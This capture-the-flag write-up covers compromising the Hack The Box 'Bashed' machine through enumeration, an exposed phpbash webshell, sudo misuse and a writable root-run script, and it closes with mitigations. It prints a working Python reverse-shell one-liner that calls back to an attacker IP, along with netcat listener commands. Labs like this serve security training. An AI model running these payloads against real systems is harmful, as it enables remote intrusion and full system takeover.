









# 🖥️ Hack The Box - Bashed Writeup

---


<p align="center">
  
</p>

🔗 [Hack The Box Machine - Bashed](https://app.hackthebox.com/machines/Bashed?sort_by=created_at&sort_type=desc)


---

## 📖 Introduction

This writeup documents the exploitation process of the Hack The Box **Bashed** machine, a Linux target exposing a web-based shell through an accessible directory.

The objective of this challenge was to identify exposed web content, gain initial access through the discovered PHP webshell, and escalate privileges to achieve full system compromise.

The attack path involved enumerating hidden web directories, abusing an exposed `phpbash` webshell to obtain access as `www-data`, escalating to the `scriptmanager` user through misconfigured sudo permissions, and leveraging a root-executed writable script to gain a root shell.


---


## 🛰️ Enumeration

An initial Nmap scan was performed against the target system to identify open ports and running services.

```bash
nmap -sV -sC -T4 10.129.48.91
```





The scan revealed an Apache web server running on port `80/tcp`:

- `HTTP (80/tcp)` running `Apache httpd 2.4.18 (Ubuntu)`


The presence of an exposed Apache web application suggested that further web enumeration could reveal hidden directories or vulnerable functionality.


---


## 📂 Web Enumeration

Web directory enumeration was performed using Gobuster in order to discover hidden or accessible directories exposed by the web server.

```bash
gobuster dir -u http://10.129.48.91 -w /usr/share/wordlists/dirb/common.txt
```





During enumeration, an accessible directory named `/dev` was discovered.

Inside this directory, a PHP-based webshell called `phpbash` was exposed:

- `/dev/phpbash.php`





The presence of an accessible webshell represented a critical security misconfiguration, as it allowed remote command execution directly through the web application.


---


## 💻 Initial Access

### 🔹 Accessing the Webshell

After discovering the `/dev` directory during web enumeration, the exposed `phpbash` webshell was accessed through the browser:

- `http://10.129.48.91/dev/phpbash.php`

The application provided remote command execution capabilities directly through the web interface, allowing commands to be executed on the target system.

### 🔹 Obtaining a Reverse Shell

To obtain a more stable interactive shell, a Netcat listener was started on the attacking machine:

```bash
nc -lvnp 4444
```




A Python reverse shell was then executed through the webshell:

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.15.182",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);subprocess.call(["/bin/bash","-i"]);'
```

This resulted in an interactive reverse shell running as the www-data user.


---


## 🪜 Privilege Escalation

### 🔹 Enumerating Sudo Privileges

After obtaining an interactive shell as `www-data`, sudo permissions were enumerated in order to identify potential privilege escalation vectors.

```bash
sudo -l
```


The output revealed that the `www-data` user was allowed to execute commands as the `scriptmanager` user without requiring a password:

```text
(scriptmanager : scriptmanager) NOPASSWD: ALL
```


This misconfiguration allowed privilege escalation from `www-data` to `scriptmanager`.

### 🔹 Switching to the `scriptmanager` User

A shell was spawned as the `scriptmanager` user using:

```bash
sudo -u scriptmanager /bin/bash
```




After switching users, the current privileges were verified:

```bash
whoami
```


### 🔹 Discovering the Writable Root-Executed Script

Further system enumeration revealed a directory named `/scripts`, which was accessible by the `scriptmanager` user.


```bash
cd /scripts
ls -la
```





Inside the directory, a Python script named `test.py` was discovered:

- `test.py`





File permissions revealed that the `scriptmanager` user had write access to the script.

Additionally, monitoring system behavior and enumerating scheduled processes suggested that the script was being executed automatically by the `root` user through a recurring scheduled task mechanism.

This created a privilege escalation opportunity, since modifying the contents of `test.py` would result in arbitrary code execution as `root`.

### 🔹 Overwriting `test.py`

A second Netcat listener was started on the attacking machine:

```bash
nc -lvnp 5555
```

The `test.py` script was then overwritten with a Python reverse shell payload:

<details>
<summary>Python Reverse Shell Payload</summary>

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.15.182",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);subprocess.call(["/bin/bash","-i"]);'
```

</details>





After a short period of time, the scheduled task executed the modified script as `root`, resulting in a reverse shell connection back to the attacking machine.

### 🔹 Root Shell

Once the reverse shell connected successfully, elevated privileges were verified:

```bash
whoami
```




The shell was now running as:

```text
root
```

This provided complete administrative control over the target system.


---


## 📌 Conclusion

This machine demonstrated how exposed development resources and improper privilege separation can be chained together to achieve full system compromise.

An exposed `phpbash` webshell provided initial remote command execution as the `www-data` user. Misconfigured sudo permissions then allowed escalation to the `scriptmanager` user, who had write access to a script executed automatically by `root`.

By overwriting the vulnerable script with a Python reverse shell payload, arbitrary code execution was achieved with root privileges, resulting in complete administrative control over the target system.

Bashed highlights the risks associated with exposed administrative tools, insecure privilege delegation, and writable scripts executed by privileged users.


---


## ⚠️ Impact

Successful exploitation of the target system resulted in full compromise of the Linux server.

An attacker was able to:

- Access an exposed web-based shell through the `/dev` directory
- Execute arbitrary commands remotely as the `www-data` user
- Escalate privileges to the `scriptmanager` user through misconfigured sudo permissions
- Modify scripts executed automatically by `root`
- Obtain a fully interactive shell running with `root` privileges

With root-level privileges, an attacker would have complete administrative control over the server, including the ability to access sensitive data, modify system configurations, maintain persistence, or deploy additional malicious payloads.


---


## 🛡️ Mitigation

Several security measures could prevent the attack path demonstrated in this machine:

- Remove exposed development tools and webshells from production environments
- Restrict access to administrative or development directories
- Apply the principle of least privilege to sudo permissions
- Prevent unprivileged users from modifying scripts executed by privileged accounts
- Monitor and audit scheduled tasks such as cronjobs
- Implement proper file permission management on sensitive directories
- Restrict outbound connections to reduce the risk of reverse shell payloads

🔒 Applying these controls would significantly reduce the risk of remote command execution and privilege escalation attacks.


